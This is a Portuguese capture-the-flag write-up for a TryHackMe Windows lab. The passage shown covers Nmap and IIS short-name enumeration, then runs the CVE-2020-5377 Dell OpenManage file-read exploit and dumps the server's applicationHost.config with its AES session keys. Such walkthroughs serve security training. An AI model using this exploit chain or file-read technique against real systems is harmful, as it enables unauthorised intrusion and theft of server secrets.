> [!Informações Iniciais]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://hss.thm/`
> - Período: 25/06/2025 a 26/06/2025
> - Máquina do `TryHackMe` de Nível Médio
> - Sistema Operacional: Windows

# Sumário
1. [[#1. Reconhecimento]]
	1. [[#1.1 Início de tudo]]
	2. [[#1.2 Burp Suite Reconhecimento Inicial]]
	3. [[#1.3 `Wappalyzer` O que está rodando?]]
2. [[#2. Enumeração]]
	1. [[#2.1 NMap Descobrindo portas]]
	2. [[#2.2 O que será esse arquivos da porta 21 (`FTP`)?]]
	3. [[#2.3 Gobuster Procurando por diretórios e arquivos ocultos]]
	4. [[#2.4 O que é `rxmon`?]]
3. [[#3. Exploração]]
	1. [[#3.1 `IIS Short File Name Disclosure`]]
	2. [[#3.2 DellMC OpenManage]]
		1. [[#3.2.1 Exploitando a aplicação]]
	3. [[#3.3 Acessando o SSH]]

- ==[[#Primeira Flag]]==

	 4. [[#3.4 `PrivescCheck`]]
4. [[#4. Escalando Privilégios]]
	1. [[#4.1 Descobrindo a versão do binário]]
	2. [[#4.2 Entendendo sobre a vulnerabilidade]]
	3. [[#4.3 Fazendo Reverse Shell com NIM]]
---
# 1. Reconhecimento
## 1.1 Início de tudo
Ao acessar a aplicação, inicialmente me deparei com uma página estática simples, sem funcionalidades interativas aparentes ou informações relevantes disponíveis. O conteúdo exibido era limitado a um texto básico, sem indicar funcionalidades adicionais ou rotas acessíveis diretamente pela interface.


## 1.2 Burp Suite: Reconhecimento Inicial

## 1.3 `Wappalyzer`: O que está rodando?

Durante a análise, foi possível identificar que a aplicação está sendo executada por meio do servidor web IIS (Internet Information Services), o que sugere que o sistema operacional da máquina-alvo é Windows. Essa identificação também levanta a possibilidade de exposição a vulnerabilidades conhecidas associadas ao IIS, como a **IIS Short File/Folder Name Disclosure**, que pode permitir a enumeração de nomes de arquivos e diretórios truncados (8.3 format), caso as configurações de segurança não estejam devidamente aplicadas.
# 2. Enumeração
## 2.1 NMap: Descobrindo portas
Inicialmente, realizei uma varredura rápida com o Nmap em todas as portas TCP, o que permitiu identificar algumas portas abertas. Em seguida, aprofundei a análise, examinando detalhadamente os serviços em execução em cada uma dessas portas, com o objetivo de coletar informações adicionais sobre suas versões e possíveis vetores de exploração.

`arthur-strelow@ubuntu-star:~$ sudo nmap -sS -p21,22,80,1311,3389 -sV -sC -O --min-rate 1000 hss.thm`

```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0d:fa:da:de:c9:dd:99:8d:2e:8e:eb:3b:93:ff:e2:6c (RSA)
|   256 5d:0c:df:32:26:d3:71:a2:8e:6e:9a:1c:43:fc:1a:03 (ECDSA)
|_  256 c4:25:e7:09:d6:c9:d9:86:5f:6e:8a:8b:ec:13:4a:8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
1311/tcp open  ssl/rxmon?
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US
| Not valid before: 2023-06-30T19:03:17
|_Not valid after:  2025-06-29T19:03:17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-06-25T13:08:34+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2025-06-24T11:20:09
|_Not valid after:  2025-12-24T11:20:09
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-25T13:08:13+00:00
```

### 2.2 O que será esse arquivos da porta 21 (`FTP`)?

Conforme evidenciado anteriormente, foram identificados apenas dois arquivos no diretório acessado: um arquivo `.txt` e um arquivo `.png`. O arquivo de texto contém uma lista de cartões de crédito aparentemente comprometidos, indicando um possível vazamento de dados sensíveis. Já o arquivo de imagem (`.png`) não pôde ser baixado no momento da análise, permanecendo em stand-by para uma tentativa de obtenção posterior.

## 2.3 Gobuster: Procurando por diretórios e arquivos ocultos

**Não encontrou nada novo**


## 2.4 O que é `rxmon`?
A porta 1311 é **comumente usada pelo Dell OpenManage Server Administrator (OMSA)**, que é uma interface web de gerenciamento de servidores Dell.

O `rxmon` é um nome genérico que o Nmap pode associar a essa porta, mas o serviço real costuma ser o _Dell OpenManage HTTPS Server_.



# 3. Exploração

# 3.1 `IIS Short File Name Disclosure`

Como identificado anteriormente, a aplicação está sendo executada em um servidor **IIS (Internet Information Services)**. Com base nisso, decidi explorar vetores de ataque específicos para esse ambiente, com o objetivo de identificar arquivos ou funcionalidades ocultas. Para facilitar a análise e interceptação de requisições, utilizei o **Burp Suite**, aproveitando uma **extensão disponível na BApp Store** que auxilia na exploração de vulnerabilidades conhecidas em servidores IIS, como a **IIS Short File Name Disclosure**.

```
[+] Started scan for URL "http://hss.thm"

[*] Trying method "OPTIONS" with magic final part "/~1/.rem"

[+] Host "http://hss.thm" is vulnerable!
[+] Used HTTP method: OPTIONS
[+] Suffix (magic part): /~1/.rem

[*] Starting filename and directory bruteforce on "http://hss.thm"
[i] File: WEB~1.CON
[i] File: ABOUT~1.HTM
[i] File: CONTAC~1.HTM
[i] File: INDEX~1.HTM
[i] File: SUPERA~1.HTM
[i] File: INDEX-~1.TXT

[+] Bruteforce completed in 147 seconds
[+] Total time elapsed: 164 seconds
[+] Requests sent: 724

[-] No directories found

[+] Identified files: 6
  |_ WEB~1.CON
    |_ Actual file name = WEB
  |_ ABOUT~1.HTM
    |_ Actual file name = ABOUT
  |_ CONTAC~1.HTM
  |_ INDEX~1.HTM
    |_ Actual file name = INDEX
  |_ SUPERA~1.HTM
  |_ INDEX-~1.TXT
  ```


Com base nas informações obtidas até o momento — incluindo os arquivos truncados identificados via vulnerabilidade de **IIS Short File Name Disclosure** — elaborei uma **wordlist personalizada** contendo possíveis nomes de arquivos e diretórios relevantes. O objetivo foi realizar um processo de **fuzzing** visando descobrir conteúdos ocultos ou sensíveis que possam auxiliar na progressão da exploração da aplicação.

```
about.html
about.htm
about.php
about-us.html
aboutus.html

contact.html
contact.htm
contact-us.html
contacts.html
contact.php

index.html
index.htm
index.php
index-old.html
index-1.html
index-1.txt
index_backup.txt
index.txt

web.config
web.conf
web.xml
web.ini
websetup.config

superadmin.html
superadmin.php
superaccess.html
superaccess.php

admin.html
admin.php
administrator.html
administrator.php

backup.zip
backup.rar
backup.bak
config.bak
config.php
config.xml

stolen-passport.png
stolen.png
passport.png
doc.png
sensitive.png
```




Com base no tamanho das respostas retornadas pelo **Gobuster**, inicialmente não esperava encontrar informações relevantes.


**E com isso, voltamos a estaca zero!**

## 3.2 DellMC | OpenManage


Notei um comportamento anômalo ao tentar acessar a aplicação a partir da minha máquina local, uma vez que ela não respondia conforme o esperado. Diante disso, optei por acessá-la diretamente a partir da máquina virtual disponibilizada pelo TryHackMe, o que permitiu o funcionamento correto da aplicação. Dessa forma, as próximas etapas da exploração serão realizadas diretamente pela VM do ambiente, garantindo melhor compatibilidade e comunicação com o alvo.

### 3.2.1 Exploitando a aplicação
O **EXPLOIT** usado foi a [CVE-2020-5377](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514), para mais informações sobre esse exploit tem [este artigo](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/)

```
root@ip-10-10-207-139:~# python3 CVE-2020-5377.py 10.10.207.139 10.10.104.51:1311
file >
```

Agora, é hora de passar a parte crucial: encontrar credenciais no servidor web. O arquivo que fica na raíz do sistema `"web.application.config"` quando você usa o IIS 7 ou até algumas versões superiores. O local que normalmente fica esse arquivo:
`%windir%\system32\inetsrv\config`

```
<!--

    The <configSections> section controls the registration of sections.
    Section is the basic unit of deployment, locking, searching and
    containment for configuration settings.

    Every section belongs to one section group.
    A section group is a container of logically-related sections.

    Sections cannot be nested.
    Section groups may be nested.

    <section
        name=""  [Required, Collection Key] [XML name of the section]
        allowDefinition="Everywhere" [MachineOnly|MachineToApplication|AppHostOnly|Everywhere] [Level where it can be set]
        overrideModeDefault="Allow"  [Allow|Deny] [Default delegation mode]
        allowLocation="true"  [true|false] [Allowed in location tags]
    />

    The recommended way to unlock sections is by using a location tag:
    <location path="Default Web Site" overrideMode="Allow">
        <system.webServer>
            <asp />
        </system.webServer>
    </location>

-->
<configSections>
    <sectionGroup name="system.applicationHost">
        <section name="applicationPools" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="configHistory" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="customMetadata" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="listenerAdapters" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="log" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="serviceAutoStartProviders" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="sites" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="webLimits" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
    </sectionGroup>

    <sectionGroup name="system.webServer">
        <section name="asp" overrideModeDefault="Deny" />
        <section name="caching" overrideModeDefault="Allow" />
        <section name="cgi" overrideModeDefault="Deny" />
        <section name="defaultDocument" overrideModeDefault="Allow" />
        <section name="directoryBrowse" overrideModeDefault="Allow" />
        <section name="fastCgi" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="globalModules" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
        <section name="handlers" overrideModeDefault="Deny" />
        <section name="httpCompression" overrideModeDefault="Allow" />
        <section name="httpErrors" overrideModeDefault="Allow" />
        <section name="httpLogging" overrideModeDefault="Deny" />
        <section name="httpProtocol" overrideModeDefault="Allow" />
        <section name="httpRedirect" overrideModeDefault="Allow" />
        <section name="httpTracing" overrideModeDefault="Deny" />
        <section name="isapiFilters" allowDefinition="MachineToApplication" overrideModeDefault="Deny" />
        <section name="modules" allowDefinition="MachineToApplication" overrideModeDefault="Deny" />
        <section name="applicationInitialization" allowDefinition="MachineToApplication" overrideModeDefault="Allow" />
        <section name="odbcLogging" overrideModeDefault="Deny" />
        <sectionGroup name="security">
            <section name="access" overrideModeDefault="Deny" />
            <section name="applicationDependencies" overrideModeDefault="Deny" />
            <sectionGroup name="authentication">
                <section name="anonymousAuthentication" overrideModeDefault="Deny" />
                <section name="basicAuthentication" overrideModeDefault="Deny" />
                <section name="clientCertificateMappingAuthentication" overrideModeDefault="Deny" />
                <section name="digestAuthentication" overrideModeDefault="Deny" />
                <section name="iisClientCertificateMappingAuthentication" overrideModeDefault="Deny" />
                <section name="windowsAuthentication" overrideModeDefault="Deny" />
            </sectionGroup>
            <section name="authorization" overrideModeDefault="Allow" />
            <section name="ipSecurity" overrideModeDefault="Deny" />
            <section name="dynamicIpSecurity" overrideModeDefault="Deny" />
            <section name="isapiCgiRestriction" allowDefinition="AppHostOnly" overrideModeDefault="Deny" />
            <section name="requestFiltering" overrideModeDefault="Allow" />
        </sectionGroup>
        <section name="serverRuntime" overrideModeDefault="Deny" />
        <section name="serverSideInclude" overrideModeDefault="Deny" />
        <section name="staticContent" overrideModeDefault="Allow" />
        <sectionGroup name="tracing">
            <section name="traceFailedRequests" overrideModeDefault="Allow" />
            <section name="traceProviderDefinitions" overrideModeDefault="Deny" />
        </sectionGroup>
        <section name="urlCompression" overrideModeDefault="Allow" />
        <section name="validation" overrideModeDefault="Allow" />
        <sectionGroup name="webdav">
            <section name="globalSettings" overrideModeDefault="Deny" />
            <section name="authoring" overrideModeDefault="Deny" />
            <section name="authoringRules" overrideModeDefault="Deny" />
        </sectionGroup>
        <section name="webSocket" overrideModeDefault="Deny" />
    </sectionGroup>
    <sectionGroup name="system.ftpServer">
        <section name="log" overrideModeDefault="Deny" allowDefinition="AppHostOnly" />
        <section name="firewallSupport" overrideModeDefault="Deny" allowDefinition="AppHostOnly" />
        <section name="caching" overrideModeDefault="Deny" allowDefinition="AppHostOnly" />
        <section name="providerDefinitions" overrideModeDefault="Deny" />
        <sectionGroup name="security">
            <section name="ipSecurity" overrideModeDefault="Deny" />
            <section name="requestFiltering" overrideModeDefault="Deny" />
            <section name="authorization" overrideModeDefault="Deny" />
            <section name="authentication" overrideModeDefault="Deny" />
        </sectionGroup>
        <section name="serverRuntime" overrideModeDefault="Deny" allowDefinition="AppHostOnly" />
    </sectionGroup>
</configSections>

<configProtectedData>
    <providers>
        <add name="IISWASOnlyRsaProvider" type="" description="Uses RsaCryptoServiceProvider to encrypt and decrypt" keyContainerName="iisWasKey" cspProviderName="" useMachineContainer="true" useOAEP="false" />
        <add name="IISCngProvider" type="Microsoft.ApplicationHost.CngProtectedConfigurationProvider" description="Uses Win32 Crypto CNG to encrypt and decrypt" keyContainerName="iisCngConfigurationKey" useMachineContainer="true" />
        <add name="IISWASOnlyCngProvider" type="Microsoft.ApplicationHost.CngProtectedConfigurationProvider" description="(WAS Only) Uses Win32 Crypto CNG to encrypt and decrypt" keyContainerName="iisCngWasKey" useMachineContainer="true" />
        <add name="AesProvider" type="Microsoft.ApplicationHost.AesProtectedConfigurationProvider" description="Uses an AES session key to encrypt and decrypt" keyContainerName="iisConfigurationKey" cspProviderName="" useOAEP="false" useMachineContainer="true" sessionKey="AQIAAA5mAAAApAAAMXVoZzljV8nMixj5wAVkhdu0ZHzH0L0FO8BTgdFkl2CbXD2eFMhWi0vb+AR6VUrvCCjKf+LzvWRKnGoz812ACweT3/ZPrcIh+Ef24nSvl6TQTcq5EI4jQgQRRhZ90+OofCAutPXcOZNVLjIlZgJjQgP07e3xrtVijkhSS3j4T1xsuE3YaWiMwCDEzxUPr2cHtLRYQxkDSvyPpvoLtab8VLH/aa90OuYx6z7o8n2332trJBC8rRNCNFI3UrsUuzASouD+3BwJTliDXCO3ozHgr1VgBaKB2vOSfiW+HZbImo9/WgRmSHC6FtGWqkhMxACOnp0vc3pRvPF/TQtjf9vpCA==" />
        <add name="IISWASOnlyAesProvider" type="Microsoft.ApplicationHost.AesProtectedConfigurationProvider" description="Uses an AES session key to encrypt and decrypt" keyContainerName="iisWasKey" cspProviderName="" useOAEP="false" useMachineContainer="true" sessionKey="AQIAAA5mAAAApAAARMxzOPMhM9dK68CJAUfppvnrJoKq10wpgKSfoeTwZlOwBE1K2kmEB/PUK6omNDZnbBlGlrkOX0hkf9EE1ZVl2oEqHOa0b6V2/4nzFssq/WvUvkM3QpkacJRr8oD2l6u6TABWvaMMDCABjJkWPhYi3XENdJYPl62S+GuGqVBAXUY52//ZDWp4Z+AoDYpH254ZGkt8fbBAThMGsyuewmluQJQq3uPN3D/I6uXceSFYKQH8sb8uK1zGZV7p2+6WEW5mF2DKXG+5WdDP+Si/UA8frR30O0vNOh/fReLHgCeMdUsf/XW5cB+CkGmipA1p4nCs591Md7d7Ge9ypUufCo1ueQ==" />
    </providers>
</configProtectedData>

<system.applicationHost>

    <applicationPools>
        <add name="DefaultAppPool" />
        <add name="hacksmartersec" />
        <applicationPoolDefaults managedRuntimeVersion="v4.0">
            <processModel identityType="ApplicationPoolIdentity" />
        </applicationPoolDefaults>
    </applicationPools>

    <!--

      The <customMetadata> section is used internally by the Admin Base Objects
      (ABO) Compatibility component. Please do not modify its content.

    -->
    <customMetadata />

    <!--

      The <listenerAdapters> section defines the protocols with which the
      Windows Process Activation Service (WAS) binds.

    -->
    <listenerAdapters>
        <add name="http" />
    </listenerAdapters>

    <log>
        <centralBinaryLogFile enabled="true" directory="%SystemDrive%\inetpub\logs\LogFiles" />
        <centralW3CLogFile enabled="true" directory="%SystemDrive%\inetpub\logs\LogFiles" />
    </log>

    <sites>
        <site name="hacksmartersec" id="2" serverAutoStart="true">
            <application path="/" applicationPool="hacksmartersec">
                <virtualDirectory path="/" physicalPath="C:\inetpub\wwwroot\hacksmartersec" />
            </application>
            <bindings>
                <binding protocol="http" bindingInformation="*:80:" />
            </bindings>
        </site>
        <site name="data-leaks" id="1">
            <application path="/">
                <virtualDirectory path="/" physicalPath="C:\inetpub\ftproot" />
            </application>
            <bindings>
                <binding protocol="ftp" bindingInformation="*:21:" />
            </bindings>
            <ftpServer>
                <security>
                    <ssl controlChannelPolicy="SslAllow" dataChannelPolicy="SslAllow" />
                </security>
            </ftpServer>
        </site>
        <siteDefaults>
            <logFile logFormat="W3C" directory="%SystemDrive%\inetpub\logs\LogFiles" />
            <traceFailedRequestsLogging directory="%SystemDrive%\inetpub\logs\FailedReqLogFiles" />
            <ftpServer>
                <security>
                    <authentication>
                        <anonymousAuthentication enabled="true" />
                    </authentication>
                </security>
            </ftpServer>
        </siteDefaults>
        <applicationDefaults applicationPool="DefaultAppPool" />
        <virtualDirectoryDefaults allowSubDirConfig="true" />
    </sites>

    <webLimits />

</system.applicationHost>

<system.webServer>

    <asp />

    <caching enabled="true" enableKernelCache="true">
    </caching>

    <cgi />

    <defaultDocument enabled="true">
        <files>
            <add value="Default.htm" />
            <add value="Default.asp" />
            <add value="index.htm" />
            <add value="index.html" />
            <add value="iisstart.htm" />
        </files>
    </defaultDocument>

    <directoryBrowse enabled="false" />

    <fastCgi />

    <!--

      The <globalModules> section defines all native-code modules.
      To enable a module, specify it in the <modules> section.

    -->
    <globalModules>
        <add name="HttpLoggingModule" image="%windir%\System32\inetsrv\loghttp.dll" />
        <add name="UriCacheModule" image="%windir%\System32\inetsrv\cachuri.dll" />
        <add name="FileCacheModule" image="%windir%\System32\inetsrv\cachfile.dll" />
        <add name="TokenCacheModule" image="%windir%\System32\inetsrv\cachtokn.dll" />
        <add name="HttpCacheModule" image="%windir%\System32\inetsrv\cachhttp.dll" />
        <add name="StaticCompressionModule" image="%windir%\System32\inetsrv\compstat.dll" />
        <add name="DefaultDocumentModule" image="%windir%\System32\inetsrv\defdoc.dll" />
        <add name="DirectoryListingModule" image="%windir%\System32\inetsrv\dirlist.dll" />
        <add name="ProtocolSupportModule" image="%windir%\System32\inetsrv\protsup.dll" />
        <add name="StaticFileModule" image="%windir%\System32\inetsrv\static.dll" />
        <add name="AnonymousAuthenticationModule" image="%windir%\System32\inetsrv\authanon.dll" />
        <add name="RequestFilteringModule" image="%windir%\System32\inetsrv\modrqflt.dll" />
        <add name="CustomErrorModule" image="%windir%\System32\inetsrv\custerr.dll" />
    </globalModules>

    <handlers accessPolicy="Read, Script">
        <add name="TRACEVerbHandler" path="*" verb="TRACE" modules="ProtocolSupportModule" requireAccess="None" />
        <add name="OPTIONSVerbHandler" path="*" verb="OPTIONS" modules="ProtocolSupportModule" requireAccess="None" />
        <add name="StaticFile" path="*" verb="*" modules="StaticFileModule,DefaultDocumentModule,DirectoryListingModule" resourceType="Either" requireAccess="Read" />
    </handlers>

    <httpCompression directory="%SystemDrive%\inetpub\temp\IIS Temporary Compressed Files">
        <scheme name="gzip" dll="%Windir%\system32\inetsrv\gzip.dll" />
        <staticTypes>
            <add mimeType="text/*" enabled="true" />
            <add mimeType="message/*" enabled="true" />
            <add mimeType="application/javascript" enabled="true" />
            <add mimeType="application/atom+xml" enabled="true" />
            <add mimeType="application/xaml+xml" enabled="true" />
            <add mimeType="image/svg+xml" enabled="true" />
            <add mimeType="*/*" enabled="false" />
        </staticTypes>
    </httpCompression>

    <httpErrors lockAttributes="allowAbsolutePathsWhenDelegated,defaultPath">
        <error statusCode="401" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="401.htm" />
        <error statusCode="403" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="403.htm" />
        <error statusCode="404" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="404.htm" />
        <error statusCode="405" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="405.htm" />
        <error statusCode="406" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="406.htm" />
        <error statusCode="412" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="412.htm" />
        <error statusCode="500" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="500.htm" />
        <error statusCode="501" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="501.htm" />
        <error statusCode="502" prefixLanguageFilePath="%SystemDrive%\inetpub\custerr" path="502.htm" />
    </httpErrors>

    <httpLogging dontLog="false" />

    <httpProtocol>
        <customHeaders>
            <clear />
        </customHeaders>
        <redirectHeaders>
            <clear />
        </redirectHeaders>
    </httpProtocol>

    <httpRedirect />

    <httpTracing />

    <isapiFilters />

    <modules>
        <add name="HttpLoggingModule" lockItem="true" />
        <add name="HttpCacheModule" lockItem="true" />
        <add name="StaticCompressionModule" lockItem="true" />
        <add name="DefaultDocumentModule" lockItem="true" />
        <add name="DirectoryListingModule" lockItem="true" />
        <add name="ProtocolSupportModule" lockItem="true" />
